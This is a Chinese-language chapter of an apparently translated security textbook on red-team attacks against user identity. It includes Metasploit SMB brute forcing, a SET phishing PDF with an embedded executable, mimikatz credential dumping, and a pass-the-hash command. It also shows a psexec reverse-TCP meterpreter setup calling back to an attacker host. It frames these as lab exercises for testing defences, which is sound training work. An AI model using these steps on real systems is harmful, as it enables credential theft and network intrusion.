



# 第六章：追踪用户的身份

在上一章中，你学习了不同的技巧，可以用来攻破系统。然而，在当前的威胁环境中，被盗用的凭证正被用来进一步攻破系统和网络。根据 Verizon 2016 年发布的*数据泄露调查报告*，63%的确认数据泄露事件发生在由于密码弱、默认设置或被盗的情况下，这一现象主要是因为大量攻击瞄准了用户的凭证。这个威胁环境促使企业制定新的策略，以增强用户身份的整体安全性。

在本章中，我们将覆盖以下主题：

+   身份是新的边界

+   攻破用户身份的策略

+   黑客攻击用户身份

# 身份是新的边界

正如在第一章中简要解释的那样，*安全态势*，保护身份的措施必须得到加强，这也是业界普遍认同身份是新的安全边界的原因。每当一个新的凭证被创建时，这个凭证大多数时候只是由用户名和密码组成。虽然多因素认证正逐渐流行，但它仍然不是用来验证用户的默认方法。此外，还有很多依赖用户名和密码才能正常工作的遗留系统。

凭证盗窃在不同的场景中正成为一个日益增长的趋势，例如：

+   **企业用户**：试图访问公司网络并希望悄无声息地渗透其中的黑客。实现这一目标的最佳方式之一就是使用有效的凭证进行身份验证，并成为网络的一部分。

+   **家庭用户**：许多银行木马病毒，如 Dridex 家族，仍然在活跃使用，因为它们针对的是用户的银行凭证，而银行凭证是黑客最关心的地方。

当前身份威胁环境的问题在于，家庭用户也同时是企业用户，他们将自己的设备带入企业环境，使用这些设备访问公司数据。现在你面临的情形是，一个用户的个人应用身份与其企业凭证存在于同一设备中，而后者用于访问公司相关的数据。

用户处理多种凭证的一个问题是，用户可能会对这些不同服务使用相同的密码。

举个例子，一个用户在他的云端电子邮件服务和公司域凭证中使用相同密码，这将帮助黑客，因为他们只需要识别用户名，一旦破解一个密码，所有的密码都将相同。如今，浏览器被用作用户消费应用程序的主要平台，而浏览器的漏洞可以被利用来窃取用户凭证。类似的情形发生在 2017 年 5 月，当时谷歌 Chrome 浏览器发现了一个漏洞。

虽然这个问题似乎与最终用户和企业有关，但现实情况是没有人是安全的，任何人都可能成为目标，甚至是政治人物。2017 年 6 月，《泰晤士报》披露的一起攻击事件中，报道称英国政府教育部长贾斯廷·格林宁和商务部长格雷格·克拉克的电子邮件地址和密码，正是被盗取的成千上万名政府官员凭证中的一部分，之后这些凭证被出售到暗网。被盗凭证的问题不仅仅在于利用这些凭证访问特权信息，还可以用来发起针对性的鱼叉式钓鱼攻击。下图展示了被盗凭证的使用示例：



上图所示工作流程中一个有趣的部分是，黑客实际上不需要为发动攻击准备完整的基础设施。如今，他们只需租用属于他人的机器人即可。这一策略在 2016 年物联网 DDoS 攻击中曾被使用，根据 ZingBox 的报告，*“50,000 个机器人的攻击持续时间为 3600 秒（1 小时），且 5-10 分钟冷却时间的租赁费用大约为每两周 3,000 到 4,000 美元。”*

随着云计算的增长，使用云服务提供商身份管理系统的**软件即服务**（**SaaS**）应用程序数量也在增加，这意味着更多的 Google 账户、更多的 Microsoft Azure 账户等等。这些云服务商通常提供双因素认证，以增加一层保护。然而，最薄弱的环节仍然是用户，这意味着这一系统并非铁壁防御。尽管可以说双因素认证增强了认证过程的安全性，但事实证明，它是可以被破解的。

一个著名的双因素认证被突破的例子涉及活动家 DeRay Mckesson。黑客致电 Verizon，并通过社交工程技巧假装自己是 Mckesson，骗过了客服人员，称他的手机出现了问题。他们说服 Verizon 的技术人员重置了他的 SIM 卡。然后他们用手中的手机激活了新的 SIM 卡，当短信到达时，黑客成功获取了验证码，结果也就此结束。

# 攻击用户身份的策略

如你所见，身份在黑客如何获得系统访问权限并执行任务中扮演了重要角色，而任务大多数情况下是访问特权数据或劫持这些数据。**红队**必须意识到所有这些风险，并了解如何在攻击演练中加以利用。因此，在开始行动之前，制定攻击计划非常重要。这个计划应考虑当前的威胁形势，涵盖三个阶段：


在**第一阶段**，**红队**将研究公司面临的不同对手。换句话说，谁有可能攻击我们？回答这个问题的第一步是进行自我评估，了解公司拥有哪些类型的信息，以及哪些人会从获取这些信息中受益。你可能无法列出所有对手，但至少能够创建一个基本的对手画像，并基于此进入下一个阶段。

在**第二阶段**，**红队**将研究这些对手常用的攻击方式。记住，很多这些组织有着一定的攻击模式。虽然无法完全保证他们会使用相同的技术，但他们可能会使用类似的工作流程。通过理解攻击的类别以及它们的产生方式，你可以在演练中尝试模仿类似的攻击。

最后一阶段再次以研究开始，但这一次是为了理解这些攻击是如何执行的，执行的顺序，以及其他相关细节。

这里的目标是从这一阶段中学习，并在演练过程中应用这些知识。红队在此阶段的任务仅仅是尽量与现实情况相符。如果红队没有明确目标，且没有足够证据证明其他黑客组织可能会进行类似攻击，那么演练就没有实际意义。

规划阶段的另一个重要方面是要理解，攻击者如果第一次尝试渗透失败，他们不会停止攻击，反而可能会再次攻击，这一次使用不同的技术，直到成功突破。红队必须以黑客的心态行动，尽管初次失败，依然要继续执行任务。

红队需要定义一些策略，以获取用户凭证，并在网络中继续攻击，直到任务完成。在大多数情况下，任务是获取特权信息。因此，在开始演练之前，明确任务目标非常重要。所有的努力必须同步和有序，否则会增加被发现的风险，蓝队将获胜。

需要记住的是，这是创建攻击演练的一种建议方式。每家公司都应进行自我评估，并根据评估结果，设计符合自身现实的演练。

# 获取网络访问权限

规划过程的一部分是获取用户凭证并了解如何从外部（外部互联网）访问内部网络。最成功的攻击之一仍然是老式的钓鱼电子邮件。这个攻击之所以如此成功，是因为它利用了社会工程学技术来诱使最终用户执行特定操作。在创建带有恶意掉落程序的精心制作的电子邮件之前，建议通过社交媒体进行侦察，试图了解目标用户在工作之外的行为。尝试识别以下内容：

+   兴趣爱好

+   他/她通常签到的地点

+   喜欢的食物

+   常访问的站点

这里的目的是能够创建一封与这些主题相关的精心制作的电子邮件。通过制定一封与用户日常活动相关的电子邮件，你在增加该用户阅读电子邮件并执行期望操作的可能性。

# 收集凭证

如果在侦察过程中你已经发现了可能导致凭证利用的未修补漏洞，这可能是最容易采取的路径。

例如，如果目标计算机易受 CVE-2017-8563 漏洞的攻击（该漏洞由于 Kerberos 回退到 NTLM 身份验证协议，允许特权提升漏洞），那么执行特权升级将更容易，并且可能获得对本地管理员账户的访问权限。大多数攻击者会在网络中进行横向移动，尝试获取具有系统特权访问权限的账户，因此红队也应采用相同的方法。

一种在 Hernan Ochoa 发布 Pass-The-Hash 工具包后获得流行的攻击是传递哈希攻击。要理解这种攻击如何工作，您需要理解密码有一个哈希值，这个哈希值是密码本身的直接单向数学衍生物，只有当用户更改密码时才会改变。根据身份验证的方式，可能会将密码哈希值而不是明文密码作为证明用户身份的凭证提交给操作系统。一旦攻击者获得这个哈希值，他可以使用它假冒用户（受害者）的身份，并在网络中继续进行攻击。


横向移动对妥协环境中的更多机器非常有用，它也可以用来在系统之间跳跃，收集更有价值的信息。

记住，任务是获取敏感数据，有时你不需要进入服务器就能获取这些数据。

在之前的图像中，Alex 对 Sandra 的计算机进行了横向移动，并从 Sandra 的计算机提升了特权到 Web 服务器。这是可能的，因为在 Sandra 的工作站中有另一个用户具有该服务器的管理员访问权限。

需要强调的是，攻击者在本地窃取的账户不能在进一步的攻击中使用。以之前的示意图为例，如果域管理员账户从未在 Alex 和 Sandra 的工作站上进行身份验证，那么该账户将无法被已攻陷这些工作站的攻击者使用。

如前所述，要成功执行通过哈希值攻击，必须获得具有管理员权限的 Windows 系统账户。一旦红队获取了本地计算机的访问权限，他们可以尝试从以下位置窃取哈希值：

+   **安全账户管理器**（**SAM**）数据库

+   **本地安全机构子系统**（**LSASS**）进程内存

+   **域活动目录数据库**（仅限域控制器）

+   **凭证管理器**（**CredMan**）存储

+   注册表中的**本地安全机构**（**LSA**）机密信息

在下一节中，你将学习如何在实验室环境中执行这些操作，然后再进行攻击演练。

# 黑客攻击用户身份

现在你已经了解了策略，是时候进行一些动手操作了。但是在此之前，以下是一些重要的注意事项：

1.  请勿在生产环境中执行这些步骤

1.  创建一个隔离的实验室以测试任何类型的红队操作

1.  一旦所有测试完成并验证无误，确保制定自己的计划，在生产环境中重新执行这些任务，作为红队攻击演练的一部分

1.  在执行攻击演练之前，确保已获得经理的同意，并且整个指挥链都知道此次演练。

以下测试可应用于本地环境，也可以应用于位于云中的虚拟机（IaaS）。

# 暴力破解

第一个攻击演练可能是最旧的，但它仍然有效，可以测试防御控制的两个方面：

+   **你的监控系统的准确性**：由于暴力破解攻击可能产生噪声，因此预计你的防御安全控制能够在活动发生时捕获这些行为。如果没有捕获到，那么你的防御策略就存在严重问题。

+   **你的密码策略有多强？**：如果你的密码策略较弱，那么很可能这次攻击将能够获取许多凭证。如果真的获取到了，你将面临另一个严重问题。

本次演练假设攻击者已经是网络的一部分，可能是内部威胁尝试窃取用户凭证以达到恶意目的。

在运行 Kali 的 Linux 计算机上，打开“应用程序”菜单，点击“Exploitation Tools”，然后选择 metasploit-framework：


当 Metasploit 控制台打开时，输入`use exploit/windows/smb/psexec`，你的提示符将会改变，如下图所示：



现在，再次切换提示符，因为你将使用 SMB 登录扫描器。为此，输入`use auxiliary/scanner/smb/smb_login`。使用命令`set rhosts <target>`配置远程主机，使用命令`set smbuser <username>`配置你想要攻击的用户，并确保通过使用命令`set verbose true`开启详细模式。

一旦完成所有这些，你可以按照以下截图中的步骤操作：



如你所见，命令序列很简单。攻击的威力依赖于密码文件。如果这个文件包含大量组合，你就增加了成功的可能性，但也会花费更多时间，并可能由于大量的 SMB 流量触发监控系统的警报。如果由于某种原因触发了警报，作为红队成员，你应该撤退并尝试其他方法。

# 社交工程

下一个练习从外部开始。换句话说，攻击者来自互联网，并通过访问系统来执行攻击。一种方法是将用户引导到一个恶意网站，从而获取用户身份。

另一种常用的方法是发送一封钓鱼邮件，安装一段恶意软件到本地计算机。由于这是最有效的方法之一，我们将使用这个方法来做示范。为了准备这封精心制作的邮件，我们将使用**社交工程工具包**（**SET**），该工具包随 Kali 一起提供。

在运行 Kali 的 Linux 计算机上，打开应用菜单，点击“利用工具”，并选择社交工程工具包：


在这个初始屏幕上，你有六个选项可以选择。由于目的是创建一封用于社交工程攻击的精心制作的电子邮件，选择选项 1，你将看到以下屏幕：


在此屏幕上选择第一个选项，这将允许你开始创建一封精心制作的电子邮件，用于你的目标钓鱼攻击：


作为红队成员，你可能不想使用第一个选项（大规模电子邮件攻击），因为你已经在侦查过程中通过社交媒体获得了非常具体的目标。

出于这个原因，此时的正确选择是第二个（有效载荷）或第三个（模板）。为了本例的目的，你将使用第二个选项：


假设在你的侦查过程中，你注意到目标用户使用大量的 PDF 文件，这使得他成为打开带有 PDF 附件的电子邮件的非常合适人选。在这种情况下，选择选项 16（Adobe PDF 嵌入式 EXE 社交工程），你将看到以下屏幕：


你在此处选择的选项取决于是否有 PDF 文件。如果你作为红队成员有一个精心制作的 PDF，选择选项 1，但为了本示例的目的，选择选项 2 使用内置的空白 PDF 进行此攻击。选择该选项后，以下屏幕将出现：


选择选项 2，并按照交互式提示输入你的本地 IP 地址作为`LHOST`，以及连接此主机时使用的端口：


现在，你想显得酷一些，选择第二个选项自定义文件名。在此情况下，文件名将是`financialreport.pdf`。输入新名称后，以下是可用选项：


由于这是一个特定目标的攻击，并且你已经知道受害者的电子邮件地址，选择第一个选项：


在这种情况下，我们将选择状态报告，选择此选项后，你需要提供目标的电子邮件和发件人的电子邮件。注意，在此情况下，我们使用的是第二个选项，即 Gmail 账户：


到此为止，文件`financialreport.pdf`已经保存在本地系统中。你可以使用命令`ls`来查看该文件的位置，具体如下截图所示：


这个 60 KB 的 PDF 文件足够让你访问用户的命令提示符，从那里你可以使用`mimikatz`来破解用户凭证，正如你将在下一部分中看到的那样。

如果你想评估此 PDF 的内容，可以使用来自[`www.malwaretracker.com/pdfsearch.php`](https://www.malwaretracker.com/pdfsearch.php)的 PDF 检查器。将 PDF 文件上传到此站点，点击提交并检查结果。核心报告应如下所示：


注意，执行了一个`.exe`文件。如果你点击该行的超链接，你将看到该可执行文件是`cmd.exe`，如下所示：


该报告的最后一部分解码显示了执行`cmd.exe`的启动操作。

# 传递哈希

此时你已经访问了`cmd.exe`，从这里你可以使用命令`start powershell -NoExit`启动 PowerShell。你希望启动 PowerShell，因为你需要从 GitHub 下载`mimikatz`。

为此，运行以下命令：

```
Invoke-WebRequest -Uri "https://github.com/gentilkiwi/mimikatz/releases/download/2.1.1-20170813/mimikatz_trunk.zip" -OutFile "C:tempmimikatz_trunk.zip"  
```

此外，确保从 Sysinternals 下载 PsExec 工具，因为稍后你将需要它。为此，可以在同一个 PowerShell 控制台中使用以下命令：

```
Invoke-WebRequest -Uri "https://download.sysinternals.com/files/PSTools.zip" -OutFile "C:tempPSTools.zip"  
```

在 PowerShell 控制台中，使用命令`expand-archive -path`来解压`mimikatz_trunk.zip`的内容。现在你可以启动`mimikatz`。第一步之一是验证运行命令提示符的用户是否具有管理员权限。如果有，你在运行`privilege::debug`命令时将看到以下结果：


下一步是转储所有活动用户、服务及其相关的 NTLM/SHA1 哈希值。这是一个非常重要的步骤，因为它将让你了解你可以尝试攻击的用户数量，从而继续你的任务。

为此，使用命令`sekurlsa::logonpasswords`：


如果目标计算机运行的是 Windows 7 或更早版本，你可能会看到实际的密码以明文显示。我们之所以说“可能”，是因为如果目标计算机安装了 MS16-014 更新，Windows 会在 30 秒后强制清除泄露的登录会话凭据。

继续执行攻击，因为你现在已经获得了哈希值。攻击可以在 Windows 系统上使用 mimikatz 和`psexec`工具（你之前下载的那个）来执行。在这个场景中，我们将使用以下命令作为示例：

```
sekurlsa::pth /user:yuri /domain:wdw7 /ntlm:4dbe35c3378750321e3f61945fa8c92a /run:".psexec \yuri -h cmd.exe"  
```

命令提示符将以该特定用户的上下文打开。如果该用户具有管理员权限，那么攻击就算成功。攻击的执行也可以通过在运行 Kali 的计算机上使用 Metasploit 来完成。命令序列如下所示：

```
> use exploit/windows/smb/psexec
> set payload windows/meterpreter/reverse_tcp
> set LHOST 192.168.1.99
> set LPORT 4445
> set RHOST 192.168.1.15
> set SMBUser Yuri
> set SMBPass 4dbe35c3378750321e3f61945fa8c92a  
```

完成这些步骤后，运行`exploit`命令并查看结果：


由于这只是红队演习，目的是证明系统容易受到这种类型的攻击。请注意，我们没有泄露任何数据，只是展示了整个身份保护系统的脆弱性。

# 其他身份盗窃方法

虽然可以肯定地说，通过前面提到的三种方法可以造成很大的损害，但同样可以说，依然有更多方式可以攻击身份。红队可以利用云基础设施作为攻击目标。Andres Riancho 开发的 Nimbostratus 工具是一个非常好的利用 Amazon 云基础设施的资源。

作为红队成员，你可能还需要对虚拟化程序（VMWare 或 Hyper-V）进行攻击。对于这种类型的攻击，你可以使用 PowerMemory（[`github.com/giMini/PowerMemory/`](https://github.com/giMini/PowerMemory/)）来利用虚拟机的密码。

# 参考文献

1.  使用 Google Chrome 偷取 Windows 凭据：[`defensecode.com/news_article.php?id=21`](http://defensecode.com/news_article.php?id=21)

1.  俄罗斯黑客出售英国政治家和外交官的登录凭证——报告 [`www.theregister.co.uk/2017/06/23/russian_hackers_trade_login_credentials/`](https://www.theregister.co.uk/2017/06/23/russian_hackers_trade_login_credentials/)

1.  Botnet-as-a-Service 在这个网络星期一出售！[`www.zingbox.com/blog/botnet-as-a-service-is-for-sale-this-cyber-monday/`](https://www.zingbox.com/blog/botnet-as-a-service-is-for-sale-this-cyber-monday/)

1.  随着任何地方计算的出现，手机基于二次身份验证的方式已经被终结：[`fc16.ifca.ai/preproceedings/24_Konoth.pdf`](http://fc16.ifca.ai/preproceedings/24_Konoth.pdf)

1.  攻击者攻击二次身份验证中的弱点：[`krebsonsecurity.com/2012/06/attackers-target-weak-spots-in-2-factor-authentication/`](https://krebsonsecurity.com/2012/06/attackers-target-weak-spots-in-2-factor-authentication/)

1.  Microsoft Windows CVE-2017-8563 远程权限提升漏洞：[`www.symantec.com/security_response/vulnerability.jsp?bid=99402`](https://www.symantec.com/security_response/vulnerability.jsp?bid=99402)

1.  Pass-The-Hash 工具包：[`www.coresecurity.com/corelabs-research-special/open-source-tools/pass-hash-toolkit`](https://www.coresecurity.com/corelabs-research-special/open-source-tools/pass-hash-toolkit)

1.  Nimbostratus 工具：[`andresriancho.github.io/nimbostratus/`](http://andresriancho.github.io/nimbostratus/)

1.  活动家 DeRay Mckesson 的 Twitter 账户是如何被黑客攻击的

    [`techcrunch.com/2016/06/10/how-activist-deray-mckessons-twitter-account-was-hacked/`](https://techcrunch.com/2016/06/10/how-activist-deray-mckessons-twitter-account-was-hacked/)

# 摘要

在本章中，你了解了身份对组织整体安全态势的重要性。你学习了红队可能用来妥协用户身份的不同策略。通过更多地了解当前的威胁形势、潜在的对手以及他们的行为方式，你可以创建更准确的攻击演练来测试防御安全控制。你了解了暴力破解攻击、使用 Kali 中的 SET 进行社会工程攻击、Pass-the-Hash 攻击，以及这些攻击如何用来执行横向移动，以完成攻击任务。

在下一章中，你将进一步了解横向移动，红队如何利用黑客思维继续进行网络映射任务，并避免触发警报。
